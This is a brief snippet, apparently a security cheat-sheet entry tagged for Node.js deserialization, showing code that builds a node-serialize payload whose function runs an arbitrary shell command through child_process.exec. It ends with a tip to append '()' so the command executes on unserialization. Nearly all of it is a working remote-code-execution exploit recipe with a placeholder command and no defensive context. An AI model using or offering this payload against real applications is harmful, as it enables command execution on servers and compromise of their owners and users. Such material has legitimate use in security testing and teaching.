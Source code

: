#deserialization #nodejs 

```node
var serialize = require('node-serialize');

var y = {
  rce : function(){
    require('child_process').exec('MY_COMMAND', function(error, stdout, stderr) { console.log(stdout) });
  }
}
console.log(serialize.serialize(y));
```

Remember: Add `()` after the second `}` at the end of the payload for the function to be called.